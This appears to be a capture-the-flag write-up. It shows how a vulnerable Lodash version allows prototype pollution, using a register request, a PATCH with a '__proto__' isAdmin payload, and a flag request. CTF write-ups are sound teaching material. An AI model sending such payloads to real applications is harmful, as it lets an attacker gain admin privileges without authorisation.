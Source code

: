 A quick google of the [Lodash version](https://snyk.io/vuln/npm:lodash:20180130) will tell us that it is vulnerable to prototype pollution. 

We can therefore create an account, update the profile with a `__proto__` key, then request the flag.

POST /register
```
{
	"username": "dave",
	"password": "dave",
	"name": "dave",
	"birthday": "dave"
}
```

PATCH /update
```
{
	"username": "dave",
	"password": "dave",
	"__proto__": {
		"isAdmin": true
	}
}
```

After this call, our object contains the `__proto__` with `isAdmin`, meaning that when the flag endpoint checks for `user.isAdmin`, it will check the value within the `__proto__`.

GET /flag
```
{
	"username": "dave",
	"password": "dave"
}
```